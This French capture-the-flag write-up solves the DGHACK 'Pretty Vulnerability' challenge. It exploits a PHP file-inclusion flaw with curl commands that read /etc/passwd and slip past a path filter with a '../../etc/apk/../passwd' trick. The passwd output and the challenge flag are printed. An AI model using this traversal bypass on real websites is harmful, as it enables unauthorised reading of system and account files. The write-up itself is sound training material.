

# Pretty Vulnerability

https://www.dghack.fr/challenges/dghack/prettyvulnerability/

> Un de mes amis a décidé de créer un portfolio en ligne afin d'appuyer sa candidature à la DGA. Je lui ai dit qu'une vulnérabilité est présente mais je ne suis pas allé plus loin sans son autorisation. Il ne me croit pas et me met au défi de trouver le champ GECOS de l'utilisateur flag. Apparemment il a également prévenu son hébergeur qui a pris des mesures pour empêcher l'exploitation de la vulnérabilité.

L'[url associée](http://web-yvqppk.inst.malicecyber.com/) présente un site perso aux couleurs chatoyantes.  

On ouvre la console du navigateur pour y trouver une potentielle faille include PHP typique: 



Quelques essais: 

```
# Le CSS apparait au milieu du HTML. Nous sommes sur la bonne voie:
curl -sv "http://web-yvqppk.inst.malicecyber.com/index.php?page=../style.css" 

# ok
curl -sv "http://web-yvqppk.inst.malicecyber.com/index.php?page=../../etc/hosts"

# ko !? Il doit y avoir une protection sur le chemin.
curl -sv "http://web-yvqppk.inst.malicecyber.com/index.php?page=../../etc/passwd"

# Essayons de contourner le problème:  BINGO, nous avons le passwd dans le résultat. 
curl -sv "http://web-yvqppk.inst.malicecyber.com/index.php?page=../../etc/apk/../passwd"
<!DOCTYPE html>
<html lang="en" dir="ltr">
// ...
    <div class="content-header flex" id="content-body">
      root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
// ...
nobody:x:65534:65534:nobody:/:/sbin/nologin
flag:x:1000:1000:DGHACK{F1sHc4n'tClImB4Tr33}:/home/flag:/bin/ash
    </div>
// ...
</html>
```

Et notre flag est donc : `DGHACK{F1sHc4n'tClImB4Tr33}`
